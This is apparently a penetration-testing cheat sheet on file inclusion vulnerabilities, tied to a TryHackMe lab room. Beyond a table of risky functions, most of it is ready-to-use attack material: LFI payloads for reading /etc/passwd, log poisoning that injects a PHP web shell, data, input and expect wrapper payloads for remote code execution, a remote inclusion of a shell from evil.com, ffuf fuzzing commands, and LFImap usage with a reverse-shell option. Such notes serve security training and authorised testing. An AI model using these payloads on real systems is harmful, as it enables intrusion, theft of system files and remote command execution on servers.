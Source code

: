 ```yaml
---
description: Notes about some basic File Insclusion attack
---
```


# File Inclusion

### Playground

* [**THM: File Inclusion, Path Traversal**](https://tryhackme.com/r/room/filepathtraversal)

### Dangerous Function Lead to File Inclusion

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |

### Local File Inclusion (LFI)

Local File Inclusion (LFI) is a type of vulnerability where an attacker can exploit a web application to include files that are already present on the server. By manipulating input parameters, such as URLs or form fields, the attacker can trick the application into loading files from the local file system, potentially accessing sensitive information or executing malicious code.

#### Basic LFI Payloads

| Command                                                   | Description             |
| --------------------------------------------------------- | ----------------------- |
| `/etc/passwd`                                             | Basic LFI               |
| `../../../../etc/passwd`                                  | LFI with path traversal |
| `/../../../etc/passwd`                                    | LFI with name prefix    |
| `./languages/../../../../etc/passwd`                      | LFI with approved path  |
| `php://filter/read=convert.base64-encode/resource=config` | LFI with Base64 Filter  |
| `../../../../etc/passwd%00`                               | LFI with Null byte      |

#### Log Poisoning to RCE

```bash
# Inject Access Log
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://target.com/

# Access
http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id
```

Access Log Location

Apache:

* /var/log/apache/access.log
* /var/log/apache2/access.log
* /etc/httpd/logs/access\_log&#x20;

Nginx:

* /var/log/nginx/access.log

#### LFI to RCE

{% code overflow="wrap" %}
```bash
# Data Wrappers
http://target.com/index.php?page=/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

# Input Wrappers
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?page=php://input&cmd=id"

# Expect Wrappers
curl -s "http://target.com/index.php?page=expect://id"
```
{% endcode %}

### Remote File Inclusion (RFI)

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow\_url\_include setting to be enabled.

{% code overflow="wrap" %}
```bash
http://target.com/index.php?page=ftp://user:pass@localhost/shell.php&cmd=id

http://target.com/index.php?page=http://evil.com/shell.php&cmd=id
```
{% endcode %}

### Automation

{% code overflow="wrap" %}
```bash
# Fuzzing Parameter
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://target.com/index.php?FUZZ=value' -fs 2309

# Check working payload with LFI wordlists
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://target.com/index.php?view=FUZZ' -fs 2309

# Read Apache2 Conf
curl http://target.com/index.php?view=../../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf
```
{% endcode %}

### Tools

**LFImap**

```bash
# Install
git clone https://github.com/hansmach1ne/LFImap
cd LFImap/
python3 -m venv lfimap_env
source lfimap_env/bin/activate
pip3 install -r requirements.txt

# Usage
Usage:
python3 lfimap.py --help
python3 lfimap.py -U "http://10.10.70.223/playground.php?page=test" -a
python3 lfimap.py -U "http://10.10.70.223/playground.php?page=test" -x --lhost 10.9.245.106 --lport 443
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh33OpuqB9v3evsJlqTqijUPEdY4TF0sKMWuXC1VhMBCh7OIKkk_OplXm29b0KOURlBvtN0Y2hsfCHcHciCxuvVZ0L1uK_3jS9v1Z4Xs5VFgkw2RbFs28oPYwlJOG3p-tAhNcDx8uT4-0v72jgAEMP1KCqs0PYtXVRpTV1P740O_x9XhIHMTPVkDrQoRtM/s1332/lfimap.png" alt=""><figcaption><p>LFImap</p></figcaption></figure>

### WordLists

* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

### References

* [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
